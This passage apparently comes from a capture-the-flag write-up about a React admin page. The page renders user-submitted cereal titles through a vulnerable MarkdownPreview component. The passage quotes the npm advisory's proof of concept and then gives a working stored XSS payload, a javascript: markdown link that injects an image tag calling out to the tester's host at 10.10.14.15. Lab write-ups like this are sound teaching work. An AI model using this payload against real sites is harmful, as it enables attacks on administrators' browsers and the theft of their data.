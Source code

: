 
The `RequestCard` is defined in the same file:

    
    
    <Card>
        <Card.Header>
            <Accordion.Toggle as={Button} variant="link" eventKey={this.props.request.requestId} name="expand" id={this.props.request.requestId}>
                {requestData && requestData.title && typeof requestData.title == 'string' && 
                <MarkdownPreview markedOptions={{ sanitize: true }} value={requestData.title} />
                }
            </Accordion.Toggle>
        </Card.Header>
        <Accordion.Collapse eventKey={this.props.request.requestId}>
            <div>
                {requestData &&
                <Card.Body>
                    Description:{requestData.description}
                    <br />
                    Color:{requestData.color}
                    <br />
                    Flavor:{requestData.flavor}
                </Card.Body>
                }
            </div>
        </Accordion.Collapse>
    </Card>
    

This part caught my eye:

    
    
    <MarkdownPreview markedOptions={{ sanitize: true }} value={requestData.title} />
    

This code is looping over the cereal requests from the GET all request, and
passing the title into the vulnerable function.

#### POC

The POC on the [vulnerability advisory](https://www.npmjs.com/advisories/668)
looked like:

    
    
    <MarkdownPreview
    markedOptions={{ sanitize: true }}
    value={'[XSS](javascript: alert`1`)'}
    />
    

That suggests that if I can set a cereal title to `[XSS](javascript: [code])`
and then someone looks at the admin page, I should get XSS.

It took some playing around with the payload, but I got this to work:

    
    
    [XSS](javascript: document.write%28%27<img src=%22http://10.10.14.15/0xdf.png%22 />%27%29)
    